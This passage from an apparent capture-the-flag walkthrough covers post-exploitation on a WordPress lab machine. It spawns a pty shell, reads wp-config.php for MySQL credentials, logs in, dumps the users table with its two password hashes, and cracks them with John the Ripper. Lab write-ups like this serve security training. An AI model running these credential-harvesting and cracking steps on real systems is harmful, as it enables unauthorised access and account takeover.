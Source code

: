 ```
python3 -c 'import pty;pty.spawn("/bin/sh")'
```

![](https://i0.wp.com/1.bp.blogspot.com/-WZTNuoOCnms/Xe0ie_8uSQI/AAAAAAAAh18/9QvbubQUSWYZzmWnumSe5QJDkCGG_KajACLcBGAsYHQ/s1600/18.png?w=687&ssl=1)

As we have managed to get a shell. So now, we will explore the system more to find some useful files.

![](https://i0.wp.com/1.bp.blogspot.com/-QtmPzku1_FU/Xe0ifYXLYMI/AAAAAAAAh2A/sEJQZVcnjvoYedIEZUIX6J1ulRmwybozwCLcBGAsYHQ/s1600/19.png?w=687&ssl=1)

Upon changing the directory, we found wp-config.php. as it is a config file, there’s bound to be usefull information. Thus, we will try to read it’s content using the cat command :

```
cat wp-config.php
```

![](https://i0.wp.com/1.bp.blogspot.com/-PYSpgvs99Ss/Xe0if7ljCYI/AAAAAAAAh2I/B1BYOlI1CcALJwb4OL4WJtE4tJ4nfHNCACLcBGAsYHQ/s1600/20.png?w=687&ssl=1)

These credentials are of mysql as you can see the prefix DB used which probably stands for DataBsase. So, we can try to login into mysql using these credentials and therefore, use the following commands :

```
bash  
mysql -u sodevwp -p
```

![](https://i0.wp.com/1.bp.blogspot.com/-wDRUFyH1ZkY/Xe0igfA1pcI/AAAAAAAAh2M/ix0MozKiRk0ho0r09MHXvFbWoHqgBTCfgCLcBGAsYHQ/s1600/21.png?w=687&ssl=1)

Yes, we are in! Let’s try and explore it further.

![](https://i0.wp.com/1.bp.blogspot.com/-i3DwmJ_AXk8/Xe0ihDFKu8I/AAAAAAAAh2Q/hML-kBUPQkIeDBbQQQY5xAl9Ll0AScj-gCLcBGAsYHQ/s1600/22.png?w=687&ssl=1)

We found a database “sodevwp” and hence, to change the database type :

```
show databases;  
use sodevwp  
show tables;  
select \* from sodevwp\_users;
```

![](https://i2.wp.com/1.bp.blogspot.com/-MsCCPz-gIhs/Xe0ihblrwCI/AAAAAAAAh2U/ygjKeim6FAsy9PBoJnKumOIQ-q2GuzlqQCLcBGAsYHQ/s1600/23.png?w=687&ssl=1)

Once the above commands are used successfully, you will find the following two hashes :

**$P$BD/ZmfBIhgjHKtkLpPKfhr2t5EDgZA. (for user admin)**

**$P$B3halPOgh4jqI1tDelkv5TGAHnaOC01 (for user mike)**

![](https://i1.wp.com/1.bp.blogspot.com/-4wCIuofw6qc/Xe0ihqgwe3I/AAAAAAAAh2Y/1pJm64pKPJoR2g2jkF-VPPQDyDrc8BcUACLcBGAsYHQ/s1600/24.png?w=687&ssl=1)

We will now use john the riper with rockyou wordlist to crack these hashes and for that type :

```
john cracker -wordlist=/usr/share/wordlists/rockyou.txt
```
